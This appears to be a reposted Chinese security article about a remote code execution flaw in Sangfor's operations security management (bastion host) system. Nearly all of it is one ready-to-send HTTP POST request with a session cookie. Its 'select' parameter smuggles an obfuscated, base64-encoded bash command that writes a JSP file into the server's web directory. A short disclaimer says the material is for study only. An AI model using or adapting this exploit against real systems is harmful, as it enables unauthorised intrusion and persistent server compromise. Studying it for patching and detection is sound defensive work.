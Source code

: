 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzIxMTg1ODAwNw==&mid=2247500933&idx=1&sn=c35687f22a88f65f599bf8b86cd0a51f

#  深信服运维安全管理系统RCE漏洞  
 网络安全透视镜   2025-07-07 23:30  
  

```
POST /fort/system;login/netConfig/set_port HTTP/1.1
Host: 127.0.0.1:1433
Cookie: sessionid=stc0IkIAbGvfWmYHCijEEr3QpEmswCCOkZtEVFI5BMle3vGS4YT4iS67NusJbgkiA%2Cfn24jPKbUEg6n1DlCo%2CPFWy3f90ToYzRdrHc8TBxmcGOe%2CSN%2CvNT6uJhNEFjFD; hadSetUkey=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 594
Connection: close


select=6379%2B-j%2BDROP%0A%62%61%73%68%20%2d%63%20%24%28%65%63%68%6f%20%5a%57%4e%6f%62%79%41%69%55%45%4e%57%64%6d%52%59%55%58%56%6b%4d%30%70%77%5a%45%64%56%62%30%6c%71%52%57%6c%4c%56%48%4e%73%55%47%63%39%50%53%49%67%66%47%4a%68%63%32%55%32%4e%43%41%74%5a%43%41%2b%49%43%39%31%63%33%49%76%62%47%39%6a%59%57%77%76%64%47%39%74%59%32%46%30%4c%33%64%6c%59%6d%46%77%63%48%4d%76%5a%6d%39%79%64%43%39%30%63%6e%56%7a%64%43%39%32%5a%58%4a%7a%61%57%39%75%4c%32%78%76%5a%79%35%71%63%33%41%3d%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68%20%2d%69%29%0a%65%78%69%74%3b%0Aecho&Unselect=22,443,9443
```

  
  
# 文章来源互联网收集整理，请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS51gqsJwIM82Y5RTicXUygDUxQ76EiavrIibm8L0BUzdF6veUR4dQOKJn2iaEFQlNeq0PIPSFXTibx0OZw/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
